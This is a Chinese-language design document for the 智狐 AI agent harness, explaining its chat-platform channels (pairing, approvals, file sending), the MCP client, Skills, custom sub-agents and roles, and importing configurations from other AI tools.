   也不用隧道。（WhatsApp 的 Cloud API 和企业微信只会把消息*推*到一个公网网址，所以要等到第二阶段。）
   客户端是只用标准库手写的（[telegram.py](harness/channels/telegram.py)）：`getMe`、`getUpdates`、`sendMessage`、
   `editMessageText`、`answerCallbackQuery`、`sendChatAction`、`getFile` 和 `setMyCommands`；出错时重试，间隔一次比一次长；
   被 Telegram 限流时就等一等；每一条错误信息里都去掉了机器人的 token。
2. **只认主人。** 机器人的名字谁都能搜到，可这个机器人能在你的电脑上执行命令。所以它像蓝牙耳机一样要先配对
   （[pairing.py](harness/channels/pairing.py)）：页面上（或者 `harness channels pair`）显示一个随机的 6 位数字，
   10 分钟内有效；你用自己的账号把它发给机器人，这个账号的编号就记成主人。别人发来的消息一律不理、也不回，
   机器人看起来就像没开着。配对的那 10 分钟里，陌生人发来别的话最多收到一句中性的提示；猜错 5 次，配对码就作废，
   没法一个一个试过去。群聊一概不理（群里的每个人都能和它说话）。
3. **每个聊天一段会话，和网页上的对话同时进行。** 每个聊天有一个 `Session`（[session.py](harness/channels/session.py)），
   有自己的会话、适配层、shell、MCP 调用、浏览器标签页和确认方式（`App.channel_agent`，和定时任务每次运行的做法一样），
   还有一个队伍：同一个聊天里一次只跑一轮，后来的消息排着等（最多 5 条）。它不拿网页对话的那把锁，所以在 Telegram 里发
   `/stop` 只停这个聊天，网页上的"停止"也碰不到它。会话和别的会话一样保存（会话栏里标着"Telegram"，花费按来源 `channel`
   记账），重启以后接着聊。同一段会话也在页面上开着的话，每一轮先*认领*它（[claims.py](harness/claims.py)）：
   Telegram 那边跑着一轮的时候，页面上不能在这段会话里发消息，也不能打开、改名或删除它；这一轮结束，页面重新读一遍，
   所以两边谁也不会把对方的那一轮冲掉。
4. **回话。** 循环对着一个 `ChannelUI`（[ui.py](harness/channels/ui.py)）说话。它用的是和网页界面同一种事件日志
   （所以存下来的会话能在页面上重放），每写完一段，就交给这个平台的发送队列（[router.py](harness/channels/router.py)）：
   网络上的发送永远不会卡住循环，先后顺序也不会乱。回复从 Markdown 转成 Telegram 认得的那一小套 HTML
   （只有 `& < >` 要转义，不像 MarkdownV2 那样处处要转义），按 Telegram 一条 4096 个字符的上限拆开：字符按 UTF-16 数，
   和 Telegram 的数法一样；一个代码块被拆开时，前一段补上结尾，后一段重新开头（[markup.py](harness/channels/markup.py)）。
   Telegram 还是不认这个格式的话，这一段改成纯文字重发。一轮进行中，每 4 秒刷新一次"正在输入……"。
5. **确认。** 某一步要你批准时，聊天里会收到一条消息，写着完整的命令（放在代码块里，一个字都不省略）和工作目录，
   下面是两个按钮。命令太长、一条消息装不下时分成几条发，按钮在最后一条上。同一个请求也出现在网页上
   （页面顶上的一条提示，以及 **扩展 → 通道** 里的一张卡片）；哪边的答复先到就算哪边的，聊天里的那条消息随即改成写明
   是谁决定的（"已在网页上允许"）。没有按钮的平台可以回一句"允许"或"拒绝"；打字的答复要等这条请求真的发到了聊天里才算数。
   选了 **自动允许只读命令**、**自动允许改文件** 或 **全部自动允许** 时，没问你就做了的每一步照样会在聊天里说一声
   （"已自动允许：$ …"；只读的命令写"已自动允许（只读）：$ df -h"）。
6. **每个聊天可以有自己的角色。** 发 `/new researcher`，新的一段会话就用自定义 Agent *researcher* 当角色，
   和在网页上用它开始一段对话一样（用它的提示词、只有它放开的工具、它写了模型的话用那个模型）。
7. **把文件发回聊天里。** 以前你在 Telegram 里说"截屏看下你在做啥"，助手能截图、也能看图，最后却只能回一句"我没法把图片发到
   Telegram"：它手里没有发东西的工具。现在聊天里的会话多了一个工具 `send_file`（[tools/send.py](harness/tools/send.py)）：
   一个路径，加一句可选的说明。图片（PNG、JPEG、GIF、WebP，看文件开头的几个字节认）在平台能直接显示的地方当照片发，
   别的当文件发，大小按各平台文档写的上限来。它和别的"把东西送出这台电脑"的操作一样先问你（见[权限规则](#权限规则)），
   路径的解析和文件工具一模一样，保存密钥的文件永远不发。真正发之前再读一遍文件，和卡片上给你看的对一对（位置、大小、格式都没变），
   而且排进这个聊天的发送队列，所以它出现在助手之前说的话后面。通道那一半在 [outbound.py](harness/channels/outbound.py)
   （哪个平台收什么）和各平台的 `send_file` 里；上传用手写的 `multipart/form-data` 编码（[net/multipart.py](harness/net/multipart.py)），
   走的还是同一个 HTTPS 帮手（有超时、有大小上限、出错说明里遮住密钥）。
   **它在哪儿有**，照着"一段对话里工具清单不变"的规矩：它属于在聊天通道里*开始*的会话（`Conversation.channel`），
   在聊天里有，在网页上接着聊这段会话时也有，说明书一字不差（缓存照样命中），只是调用时回答"这段对话现在不在聊天软件里"。
   网页上的普通对话和定时任务从来没有它，不用为一份用不上的说明书花钱。同样的原因，说明书里不写是哪个平台、上限多大；
   发不了的时候，结果里会说清楚为什么、该怎么办（"先打包成 zip""先缩小一份"）。聊天里一段会话的第一条消息（`<channel>` 那句说明）
   也提醒模型：直接把文件发过去，别只说路径（手机上打不开）。系统提示词没有动：所有的对话都用它。

#### 六个平台，三种收消息的办法

每个平台是 `Channel` 的一个子类：把平台的事件换成同样的 `Inbound` / `Press`，再把 router 交来的话发出去
（[base.py](harness/channels/base.py)）。router、会话、配对、确认、网页都不知道自己在和哪个平台说话。
没有一个需要公网地址，因为连接永远是智狐主动打开的：

| 平台 | 消息怎么来 | 确认 | 排版 | 说明 |
|---|---|---|---|---|
| Telegram | 长轮询（`getUpdates`） | 按钮 | 一小套 HTML | 一条最多 4096 个 UTF-16 单位 |
| Discord | Gateway 的 WebSocket（[gateway.py](harness/channels/gateway.py)）：Hello、Identify / Resume、心跳 | 按钮（message components） | Markdown 原样（`####` 以下的标题变成粗体） | 只要 `DIRECT_MESSAGES` 这一类事件；读私聊不需要 Message Content 这个特权。斜杠命令登记在和机器人的私聊里 |
| Slack | Socket Mode 的 WebSocket：每个信封马上回执 | Block Kit 按钮 | mrkdwn（`*粗体*`、`<网址\|文字>`，`& < >` 要转义） | Slack 会把 `/` 开头的话都拦下来，所以命令写成 `/zhifox new`、`/zhifox stop`…… |
| 飞书 | 官方 SDK `lark-oapi` 的长连接 | 卡片上的按钮（发不出卡片时退回成文字） | `post` 消息里 `md` 标签的 Markdown | 可选：`uv sync --extra feishu` |
| 钉钉 | 官方 SDK `dingtalk-stream` 的 Stream 模式 | 回复"允许"或"拒绝"（能回传点击的按钮要先在卡片平台上建模板） | 钉钉的 markdown | 可选：`uv sync --extra dingtalk`。回复先用消息带来的 `sessionWebhook`，过期了改用单聊的主动发送接口 |
| QQ | Gateway 的 WebSocket（和 Discord 是同一套），`access_token` 会定期换 | 回复"允许"或"拒绝" | 纯文字 | 一条消息 60 分钟内最多"被动回复" 4 次，之后改成主动消息 |

把文件发回聊天里（`send_file`）用的是各平台自己的上传接口，上限是它们文档里写的：

| 平台 | 文件怎么发 | 上限 |
|---|---|---|
| Telegram | 图片用 `sendPhoto`（GIF 用 `sendAnimation`），别的用 `sendDocument`，都是 `multipart/form-data` 上传；说明写在消息里 | 照片 10 MB（更大的、或者 Telegram 显示不了的图片当文件发），文件 50 MB，说明 1024 个字符（更长的另发一条） |
| Discord | 就是发一条消息，文件放在 `files[0]`，消息本身放在 `payload_json` | 一个文件 20 MB；说明 2000 个字符 |
| Slack | `files.getUploadURLExternal`，把字节传到那个一次性的上传地址（不带 Bot token），再 `files.completeUploadExternal` 发到私聊里 | 要 `files:write` 这个权限（清单里有；照着旧清单建的应用要加上它、重新安装） |
| 飞书 | 图片传到 `im/v1/images`，别的传到 `im/v1/files`（`file_type` 按扩展名选），再发一条 `image` 或 `file` 消息；说明另发一条 | 图片 10 MB，文件 30 MB |
| 钉钉 | 传到 `media/upload`（老的 `oapi` 接口，同一个 access_token），再主动发一条 `sampleImageMsg` 或 `sampleFile` 单聊消息 | 20 MB；图片只认 JPEG、PNG、GIF；文件只认 doc、docx、xlsx、pdf、zip、rar（别的会让模型先打包成 zip） |
| QQ | 不支持：QQ 单聊的富媒体只能给一个公网网址、由 QQ 自己去下载，智狐没有公网地址（为了它把你的文件放到网上，等于交给了所有拿到链接的人） | 工具会直接这么告诉模型 |

- **网关**（[gateway.py](harness/channels/gateway.py)）给 Discord 和 QQ 写一遍、两边共用：第一次心跳先等"间隔 × 随机数"；
  下一次心跳时上一次的还没回 ACK，说明连接已经僵死了（不做关闭握手直接断开，然后 Resume）；op 7 是"请你重连"，
  op 9 说会话还能不能接着用。关闭代码的表每家各给一份：token 不对、不许用的 intents 这种情况直接停下不再重连，因为 Discord
  一天里登录超过 1000 次会把机器人的 token 作废；同样的原因，重连的间隔最多拉到 120 秒。
- **WebSocket 客户端**（[net/websocket.py](harness/net/websocket.py)）实现了 RFC 6455 里客户端要的那一部分：握手和
  `Sec-WebSocket-Accept` 的核对；发出去的每一帧都加掩码（服务器发来带掩码的帧就拒绝）；分片的消息，中间可以夹着控制帧；
  ping/pong；关闭握手；协议出错、文字不是合法的 UTF-8、消息太大时分别用 1002、1007、1009 关闭（太大的消息看到长度就拒绝）；
  处处有超时；照着 `HTTPS_PROXY` 走 HTTP 代理（CONNECT）。明文的 `ws://` 只允许连这台电脑自己（测试里的假服务器）。
- **官方 SDK** 是可选的依赖，只在 [feishu.py](harness/channels/feishu.py) 和 [dingtalk.py](harness/channels/dingtalk.py) 里导入，
  而且只用来收消息：发消息、改卡片、下载文件都是普通的 HTTPS 请求，和别的平台一样。SDK 的几处毛病（模块级的事件循环、
  没有公开的"停下"、Secret 不对时永远在重试、日志里打印连接用的票据）各用一个小小的 `Listener` 类绕开，测试也是从这里换成假的。
- **加一个平台** 要做三件事：一个 `Channel` 的子类；在 `hub.FACTORIES` / `CHECKS` / `CLASSES` 里各登记一下；在
  [platforms.py](harness/channels/platforms.py) 里写上它的一行（stage 改成 `ready`、要填哪几项），再在
  [guides.py](harness/channels/guides.py) 里写上建机器人的步骤，网页上的向导和 `harness channels setup` 都照着它显示。

### 三类工具

区别在于"说明书谁写"和"谁来执行"：

| 类别 | 说明书 | 执行 | 这个项目里的例子 |
|---|---|---|---|
| 自定义工具 | 我们写 | 我们的电脑 | 待办（[todo.py](harness/tools/todo.py)）、定时任务（[tasks.py](harness/tools/tasks.py)）、执行命令（[shell.py](harness/tools/shell.py)）、读 Skill（[skill.py](harness/tools/skill.py)）、把文件发到聊天里（只有聊天通道里有，[send.py](harness/tools/send.py)） |
| Anthropic 定义的工具 | Anthropic | 我们的电脑 | 读写文件（[files.py](harness/tools/files.py)；查看图片时交回图片本身，是不是图片看文件开头的几个字节、不看扩展名；看不了图片的模型（DeepSeek）收到一句说明）、记忆（[memory.py](harness/tools/memory.py)）、给 Claude 用的浏览器和操作电脑（[browser.py](harness/tools/browser.py)、[computer.py](harness/tools/computer.py)） |
| 服务器工具 | Anthropic | Anthropic 的服务器 | 联网搜索（[web.py](harness/tools/web.py)） |

第二类工具的说明书 Claude 在训练时就学过，所以给 Claude 只需要一行声明。别家的模型没学过，
所以 `files.py` 和 `memory.py` 里另有一份手写的说明书（`PORTABLE`）给它们用，浏览器另有一套 12 个手写的"替身"，操作电脑另有 9 个，执行的代码是同一份。
第三类工具在 Anthropic 的服务器上，别家的模型用不了。

还有第四类是通过 MCP 接进来的：说明书由写这个 MCP 服务器的人写，工具在他的程序里执行（在你的电脑上，或者在远程的服务上），
哪一家的模型都能用。

### MCP：别人写好的工具

上面这些工具都写在这个程序里。[MCP](https://modelcontextprotocol.io)（Model Context Protocol）是一个公开的协议，
管的是其余的情况：任何人都可以把一组工具（读写 GitHub、查数据库、操作浏览器……）做成一个"MCP 服务器"，
任何支持 MCP 的助手（"客户端"）都能连上它，把这些工具交给自己的模型用。智狐是一个客户端，
在 [harness/mcp/](harness/mcp/) 里手写，没有用官方的 SDK，一个文件管一件事：

| 文件 | 做什么 |
|---|---|
| [jsonrpc.py](harness/mcp/jsonrpc.py) | 消息的信封：请求、回答、通知（JSON-RPC 2.0），以及怎么等一个回答、等多久 |
| [stdio.py](harness/mcp/stdio.py) | 本地服务器：启动那个程序，消息一行一条走它的标准输入和输出，它的 stderr 留着当日志 |
| [http.py](harness/mcp/http.py) | 远程服务器：每条消息是一次 HTTP POST，回答是一个 JSON，或者一串服务器推送事件 |
| [client.py](harness/mcp/client.py) | 协议本身：弄清对面说的是哪一代协议，一页一页列出它的工具，调用它们 |
| [bridge.py](harness/mcp/bridge.py) | MCP 的工具 ↔ 智狐的工具：名字、参数格式、结果 |
| [manager.py](harness/mcp/manager.py) | 服务器的启动、停止、重启和状态，以及"一段对话里工具不变"的快照 |
| [config.py](harness/mcp/config.py)、[importers.py](harness/mcp/importers.py) | `data/mcp.json`、给页面看时遮住密钥、从其他工具导入（见"从其他工具导入"） |

一次调用走的路：

```
模型："我要调用 mcp__github__search_issues，参数是 {...}"
  └─► agent.py        和别的工具一样：先过权限这一关（默认每次都问你），再执行
        └─► manager.py      找到 github 这个服务器的连接
              └─► client.py      包成一个 tools/call 请求
                    └─► stdio.py / http.py   写进服务器的 stdin，或者 POST 到它的网址
                    ◄── 服务器的回答
        ◄── bridge.py       把回答里的文字、图片整理成交给模型的结果
```

**两代协议。** 到 2025-11-25 这一版为止，连接要先"握手"：客户端发 `initialize`，带上自己支持的版本；
服务器回答它选定的版本和能力；客户端再发一条 `notifications/initialized` 确认，这一来一回定下的东西在整个连接里都算数。
从 2026-07-28 起，MCP 是"无状态"的：没有握手，每个请求都在 `params._meta` 里自己带着协议版本、客户端是谁、
有哪些能力，服务器不用记得上一个请求。外面两种服务器都有，所以智狐两种都会说：先按新的规矩问一句 `server/discover`。
回答了，或者回了一个只有新一代才有的错误（比如"不支持这个版本"），就是新一代；回了别的错误，或者干脆不理，
就是老一代，改走握手。有的本地服务器启动很慢（`npx` 第一次要下载），所以等几秒没有回音，就把 `initialize` 也发出去，
两个谁先成功按谁来。

**一段对话里工具是"冻结"的。** 每次请求都从工具说明书开始，而 Claude 的缓存认的就是请求的开头：
对话进行到一半改了一个工具，整段对话的缓存就作废了，Claude 之前的思考内容也对不上它前面的内容了。
可是 MCP 服务器随时可能连上、断开、改变它的工具。所以一段对话发出第一条消息的那一刻，
智狐把当时已经连上的服务器的工具拍一张快照，这段对话从头到尾只用这张快照。之后才连上或者有变化的服务器，
从下一段新对话开始才用得上，在那之前，它在 MCP 一页里的那一行标着"新对话生效"。
快照里的某个服务器后来不在了，调用它的工具会得到一个说清楚原因的错误，模型会换个办法。

**名字、参数格式和结果的翻译。** 各家模型要求工具名最长 64 个字符，只能用字母、数字、`_` 和 `-`；
两个服务器还可能都有一个叫 `search` 的工具。所以智狐把它叫做 `mcp__服务器__工具`，别的字符换成 `_`，
太长的截短并加一小段哈希，保证不重名；说明的开头写明它来自哪个服务器。参数格式原样交过去，只去掉各家不接受的：
Claude 不接受最外层的 `anyOf`，Gemini 不认识 `$ref` 和 `$schema`，所以给 OpenAI 格式的几家时把引用就地展开。
结果里，文字交给模型；图片在模型看得懂图片时作为图片交过去；嵌入的资源变成文字；服务器只给了结构化结果、
没给文字时，把它写成 JSON；`isError` 会把这个结果标成出错，模型可以据此自己改正。

**停止、超时和崩溃。** 点"停止"会取消正在进行的调用：stdio 上发一条 `notifications/cancelled`；
HTTP 上挂断那个请求（对老一代的服务器也会发那条通知）。一次调用超过 5 分钟也会这样取消
（可以在 `data/mcp.json` 里按服务器用 `"timeout": 秒数` 改）。本地服务器崩溃了会自动重启，10 分钟内最多 3 次。
服务器通知"工具列表变了"（`notifications/tools/list_changed`）时，智狐在后台重新取一遍。
### Skill 是怎么工作的

模型什么都懂一点，但不知道你希望某一类事怎么做。每次都把要求重新说一遍很累，全写进系统提示词又会让每一次请求
都背着所有的要求。Skill 就是为这个准备的：一个文件夹，里面的 `SKILL.md` 写着做这一类事的步骤，旁边可以带着
脚本、参考资料和模板。格式是开放的 [Agent Skills 标准](https://agentskills.io/specification)，Claude、Claude Code
和越来越多别家的工具都用它，所以在那边写好的 Skill 可以原样装进来：

```
weekly-report/
├── SKILL.md          ---
│                     name: weekly-report          小写字母、数字和连字符，和文件夹同名
│                     description: 整理每周的      做什么、什么时候用（最多 1024 个字符）
│                       工作周报。用户说……时使用
│                     ---
│                     （下面是做法，用 Markdown 写）
├── scripts/          可选：模型可以运行的脚本
└── references/       可选：需要时才读的参考资料
```

分三层、用到才拿（progressive disclosure）：一、每个启用着的 Skill 的名字和说明一直在模型眼前，每个约 100 个 token，
所以装几十个也不会让对话变贵；二、请求和某个说明对得上时，模型用 `skill` 工具读出完整的 `SKILL.md`；
三、别的文件和脚本，只有说明里要求、确实需要时才读、才运行。

这份列表放在哪里，为什么不放系统提示词：一段对话里，系统提示词和工具说明书必须一字不差（缓存靠它；Claude 之前的
思考内容也和它绑在一起），可你随时可能装上、停用一个 Skill。所以列表放在用户消息里，和当前时间一样：
一段对话的第一条消息带着一个 `<skills>` 块，写着当时有哪些 Skill；之后每条消息发出之前，和模型最近一次看到的那份比一比，
变了就把新的一份附在这条消息前面。"模型最近一次看到的那份"直接从对话历史里找，不另外记，所以打开旧会话、
某一轮出错被撤回，都不用额外处理。唯一的例外是 Claude 的自动压缩：压缩之前的内容不再发给模型，那里面的列表也就不算看到过。
Claude Code 也是这样做的：它把 Skill 列表作为附加信息放进消息里，而不是写死在系统提示词里。
"怎么用 Skill"也写在这个块和 `skill` 工具的说明里，而不是系统提示词里：系统提示词你可以在设置里改，
改过的提示词不该一声不响地让 Skill 失效。定时任务每次运行的第一条消息里也带着这份列表。
见 [harness/skills/catalog.py](harness/skills/catalog.py)。

读和运行：`skill` 工具只能读，只能读启用着的 Skill，路径一层一层地检查，出不了那个 Skill 的文件夹，也不跟着链接走，
所以读 Skill 不用问你，和记忆工具一样。Skill 里的脚本由模型用 `run_command` 运行，和别的命令一样每次都问。
Skill 不能替你放开这一关：Claude Code 把 `allowed-tools` 当作"用这些工具不用再问"，智狐只把它显示出来。
Skill 里的 `${CLAUDE_SKILL_DIR}` 会换成这个 Skill 真实的文件夹，所以用到它的 Claude Code Skill 照样能用。
标了 `disable-model-invocation: true` 的 Skill 不列给模型（作者的意思是"只在用户点名时用"），你点名要用它时，模型照样读得到。

安装：装、改、删 Skill 只能由你在网页上做，模型做不了。智狐有自己的文件夹 `data/skills/`，不会自己去读别的工具的：
"从其他工具导入"只有在你点了之后，才去看 `~/.claude/skills/`、`~/.agents/skills/`、`~/.codex/skills/`、`.github/skills/`
这些文档里写明的地方（见"从其他工具导入"），你勾选了的才复制过来，之后两边各改各的，互不影响。从外面来的东西，写进去之前都先给你看（名字、说明、文件、来源），并且一律当作不可信的：

- 网址只认 https，跳转也只跟到 https；下载有超时，最多 20 MB。GitHub 上的文件夹链接（`…/tree/main/skills/pdf`）
  会从 `codeload.github.com` 下载那个分支的压缩包（一个请求，不占 GitHub API 每小时的额度），再从里面取出那个文件夹；
  `SKILL.md` 的链接装的是它所在的整个文件夹。
- 压缩包里只要有一项是绝对路径、带 `..`、是符号链接、设备文件或管道，或者是加密的，就整个不装；文件个数（1000 个）、
  解开之后的总大小（50 MB）都有上限，只差大小写的同名文件（在 macOS 上会互相覆盖）也不装。文件先写进一个隐藏的文件夹，
  最后一步改名换上去，装到一半出错不会留下半个 Skill。
- 和已有的 Skill 同名时，问你改名（`SKILL.md` 里的 `name` 跟着改成新文件夹的名字）还是替换。

frontmatter 的解析：`SKILL.md` 开头有几行 YAML。没有为此加一个 YAML 库，[harness/skills/frontmatter.py](harness/skills/frontmatter.py)
只认标准用到的那一小部分（普通的、带引号的、多行的值，一层的 `metadata` 表，列表），别的写法都明确报错并给出行号：
锚点和别名（可以拿来做指数膨胀）、标签（有的库会照着它构造任意对象），以及没加引号的值里出现"冒号加空格"
（正规的 YAML 解析器同样会报错，Claude Code 遇到这种文件会当作什么字段都没写）。值一律当作文字，`version: 1.0`
读出来就是 `"1.0"`，不是数字。标准之外的字段（比如 Claude Code 的 `argument-hint`、`hooks`）原样留在文件里。

### 自定义 Agent：子 Agent 和角色

Skill 教的是"某一类事怎么做"。**Agent** 则是另一个助手：有它自己的设定、自己的工具、自己的模型。每个 Agent 是
`data/agents/` 里的一个 Markdown 文件，格式和 [Claude Code 的 subagent](https://code.claude.com/docs/en/sub-agents)
一样，那边写好的可以原样导入：

```markdown
---
name: 资料研究员                  字母（中文也可以）、数字、- 和 _；也是文件名（资料研究员.md）
description: 查资料、读网页，      它擅长什么、什么时候该把事情交给它（最多 1024 个字符）
  交回一份带出处的摘要。
tools: Read, WebSearch, WebFetch  可选；不写就是"叫它的那一方有的都能用"，[] 表示一个都没有
model: inherit                    可选："提供方/模型"（deepseek/deepseek-flash）、inherit，或者 opus / sonnet
color: blue                       可选：red、orange、yellow、green、cyan、blue、purple、pink 之一
---
你是一个细心的研究员……           它的设定（就是它的系统提示词）
```

同一个文件有两种完全不同的用法，分清这两种，就明白了"agent"这个词的要点：

| | 子 Agent | 角色 |
|---|---|---|
| 谁叫它 | 主助手：任务和它的说明对得上时，用 `agent` 工具交给它（你也可以直接说"让资料研究员查一下……"） | 你：在"新对话"旁边的箭头里选它 |
| 它看得到什么 | 只有主助手写给它的任务：看不到你们的对话，也看不到附件 | 整段对话，和平常的助手一样 |
| 历史 | 每次交给它都是一段新的，做完就扔掉；只有它最后的回答回到主助手的对话里 | 它就是这段对话，和别的会话一样保存、打开 |
| 它和谁说话 | 主助手（它没法向你提问；你在一张卡片上看它在做什么） | 直接和你 |
| 适合 | "上下文隔离"：它在自己那边读了二十个网页，主助手的对话里只多一段话 | 一段时间里专门和你做某一类事的助手：写作搭档、代码审查员 |

**子 Agent 是怎么跑起来的**（[harness/agents/runner.py](harness/agents/runner.py)）。模型调用 `agent(name, task)` 时，
智狐建第二个 `Agent`（和主助手同一个循环类），给它：

- **一段新的历史**：第一条用户消息就是任务（和平常一样，前面带着 `<context>` 时间说明）；
- **它自己的系统提示词**：Agent 的设定，后面接一段程序附上的"环境"（工作目录、操作系统、`<context>` 是什么、
  网页和文件里的内容是资料不是指示，以及它的"用户"其实是主助手、主助手只收得到它最后的回答，所以要交回结论、
  缺什么信息就说出来，而不是去提问）。环境那几行和内置提示词用的是同一份文字（[harness/prompt.py](harness/prompt.py)
  把它们分成了几段有名字的常量），"可以联网"那一行只在它真的拿到联网工具时才写；
- **只有放开的工具，而且永远不比叫它的那一方多**：allow-list 是套在叫它的那一方手里的工具上的，所以一个只读的角色
  叫不出一个能改文件的子 Agent，用 DeepSeek 的子 Agent 也拿不到 Claude 的联网搜索。`Read` 拿到的是"只许读"的
  文件工具：改文件的调用在问你之前就被退回（`Tool.check`）。它还有自己的 shell、自己名下的 MCP 调用（重新拍一张快照、
  记在它自己名下，只留叫它的那一方本来就有的工具），和定时任务的每次运行一样；
- **它选的模型**；写 `inherit` 就和叫它的那一方用同一个。

它的每一次工具调用都经过叫它的那一方的同一个 `Permissions` 对象：在你的对话里，就是你在页面上选的那一档；
在定时任务里，就是那个任务自己的那一档。确认卡片照常出现在对话里，写着是哪个 Agent 在问。"停止"也停得了它：
它运行的那一会儿，把自己的"停止"登记在叫它的那一方的界面上，只结束自己的命令、只取消自己的 MCP 调用，别人的不碰；
被打断的那次 `agent` 调用和别的工具调用一样补上结果。它调用模型照样记账，来源写成 `subagent`；它的 token 和费用
也加进叫它的那一方的合计里（不算步数，也不算上下文的大小）。它最多调用 `AGENT_MAX_STEPS` 次模型（25 次）；
子 Agent 默认不能再往下交，除非你把 [harness/config.py](harness/config.py) 里的 `AGENT_MAX_DEPTH`（1）调大。
主助手收到的工具结果，是子 Agent 最后的回答，加上一句"它做了什么"（调用了几次模型、用了哪些工具）。

**为什么主助手的对话又便宜又稳定。** `agent` 工具一直都在（哪怕一个 Agent 都还没有），它的说明书里也不写有哪些 Agent；
Agent 的列表放在用户消息里的 `<agents>` 块中，和 `<skills>` 块的做法一模一样（[harness/agents/catalog.py](harness/agents/catalog.py)，
两者共用 [harness/catalog.py](harness/catalog.py)）。所以主助手的系统提示词和工具说明书在一轮又一轮之间、在交出任务的前后都一字不差，
缓存照样命中。

**角色。** 用一个 Agent 开始一段对话，这段对话换掉三样东西：系统提示词（它的设定，可以用和你自己的提示词一样的
`{workspace}` 这类占位符，后面同样接上程序附上的环境说明）、工具（它的 allow-list 套在平常那一套上）、模型（它写了的话；
这也会成为"现在用的模型"，和打开一段旧会话一样）。会话文件里记着是哪个 Agent，左边的会话列表里有一个带颜色的小标记，
顶上的标题前面写着它的名字。角色在一段对话里不能换（系统提示词和工具不能变），想换就开一段新的；换到另一家的模型时，
新的一段照样是这个角色。重新打开这段会话时，按这个 Agent 现在的文件重新生成提示词（和内置的提示词一样）；
它已经被删掉的话，会用内置的提示词接着聊，并且告诉你一声。

**管理 Agent。** "扩展 → Agent"列出它们；每一个都可以用表单编辑（名字、说明、从同步到的模型列表里选模型、颜色、
按"内置的 / Skill / MCP"分组的工具清单、设定），也可以直接改整个 Markdown 文件，两种写法都由和 `SKILL.md` 同一个解析器检查
（[harness/skills/frontmatter.py](harness/skills/frontmatter.py)）。按表单保存时只改你改过的那几项，注释和智狐不用的字段
（Claude Code 的 `permissionMode`、`hooks`……）原样留着。Claude Code 的工具名照样认：`Write`、`MultiEdit` 算 `Edit`，
`Grep`、`Glob`、`LS` 算 `Read`，`Task` 算 `Agent`；智狐没有的名字原样保留、列出来，但会被忽略。智狐自己的 `Browser`
给的是浏览器的全部工具，前提是叫它的那一方手里有（浏览器开着）；这时子 Agent 用的是叫它的那一方的标签页，确认也跟着那一方。
`Computer` 同样给的是操作电脑的全部工具（叫它的那一方手里有的话）；子 Agent 和叫它的那一方共用同一个屏幕的 session，
所以叫它的那一方要问的时候它也问（卡片上写着是哪个 Agent），你在这段对话里选过的截图不再问、点击和打字不再问，对它也算数。"从其他工具导入"
只在你点它的时候才去读 Claude Code、GitHub Copilot、Gemini CLI、OpenCode、Codex 这些工具的 Agent，写法不一样的先换成智狐的写法，
只复制你勾选的（见"从其他工具导入"）。三个示例（只读文件加联网搜索的资料研究员、
只读的代码审查员、不用任何工具的写作助手）点一下就能加进来，默认一个都不装。模型没有任何能新建或修改 Agent 的工具。

### 从其他工具导入

你可能已经在 Claude Code、Cursor、VS Code、Codex、Gemini CLI 或者别的 AI 工具里配好了 MCP 服务器、写好了 Skill 和 Agent。
Skill、MCP、Agent 三页各有一个"从其他工具导入"：点了才去读这些工具的文档里写明的位置，列出找到了什么，
你勾选的复制进智狐自己的文件夹。`~` 开头的在你的家目录里，别的在工作目录里（项目级）：

| 工具 | MCP 服务器 | Skill | Agent |
|---|---|---|---|
| [Claude Code](https://code.claude.com/docs/en/mcp) | `~/.claude.json`（你自己的，和这个项目的那一项）、`.mcp.json` | `~/.claude/skills`、`.claude/skills` | `~/.claude/agents`、`.claude/agents`（原样复制） |
| [Claude Desktop](https://modelcontextprotocol.io/docs/develop/connect-local-servers) | `claude_desktop_config.json`（macOS `~/Library/Application Support/Claude/`，Windows `%APPDATA%\Claude\`，Linux `~/.config/Claude/`） | | |
| [Cursor](https://cursor.com/docs/context/mcp) | `~/.cursor/mcp.json`、`.cursor/mcp.json` | `~/.cursor/skills`、`.cursor/skills` | `~/.cursor/agents`、`.cursor/agents` |
| [VS Code](https://code.visualstudio.com/docs/agents/reference/mcp-configuration) | 用户的 `mcp.json`（Code 和 Code - Insiders）、`settings.json` 里的 `mcp.servers`、`.vscode/mcp.json` | | |
| [GitHub Copilot](https://docs.github.com/en/copilot/reference/custom-agents-configuration) | `~/.copilot/mcp-config.json` | `~/.copilot/skills`、`.github/skills` | `~/.copilot/agents`、`.github/agents`（`*.agent.md`） |
| [Codex](https://learn.chatgpt.com/docs/extend/mcp) | `~/.codex/config.toml`、`.codex/config.toml`（TOML） | `~/.codex/skills`、`.codex/skills` | `~/.codex/agents`、`.codex/agents`（TOML） |
| [Gemini CLI](https://geminicli.com/docs/tools/mcp-server/) | `~/.gemini/settings.json`、`.gemini/settings.json` | `~/.gemini/skills`、`.gemini/skills` | `~/.gemini/agents`、`.gemini/agents` |
| [Agent Skills](https://agentskills.io/client-implementation/adding-skills-support)（很多工具共用的文件夹） | | `~/.agents/skills`、`.agents/skills` | |
| [Windsurf](https://docs.devin.ai/windsurf/plugins/cascade/mcp) | `~/.codeium/windsurf/mcp_config.json`、`~/.config/devin/mcp_config.json`、`.devin/mcp_config.json` | `~/.config/devin/skills`、`.windsurf/skills`、`.devin/skills` | |
| [Cline](https://docs.cline.bot/mcp/mcp-overview) | `~/.cline/data/settings/cline_mcp_settings.json`，以及它以前的两个位置 | | |
| [Roo Code](https://roocodeinc.github.io/Roo-Code/features/mcp/using-mcp-in-roo) | VS Code 的 globalStorage 里的 `mcp_settings.json`、`.roo/mcp.json` | `~/.roo/skills`、`.roo/skills` | |
| [Continue](https://docs.continue.dev/customize/deep-dives/mcp) | `~/.continue/config.yaml`（YAML）、`~/.continue/config.json`、`~/.continue/mcpServers/`、`.continue/mcpServers/` | | |
| [Zed](https://zed.dev/docs/ai/mcp) | `settings.json` 里的 `context_servers`、`.zed/settings.json` | | |
| [OpenCode](https://opencode.ai/docs/mcp-servers/) | `~/.config/opencode/opencode.json(c)`、`opencode.json(c)`、`.opencode/opencode.json(c)` | `~/.config/opencode/skills`、`.opencode/skills` | `~/.config/opencode/agents`、`.opencode/agents` |
| [Goose](https://goose-docs.ai/docs/guides/config-files) | `~/.config/goose/config.yaml`（YAML；Windows 上在 `%APPDATA%\Block\goose\config\`） | `.goose/skills` | |
| [Qwen Code](https://qwenlm.github.io/qwen-code-docs/en/users/features/mcp/) | `~/.qwen/settings.json`、`.qwen/settings.json` | `~/.qwen/skills`、`.qwen/skills` | `~/.qwen/agents`、`.qwen/agents` |
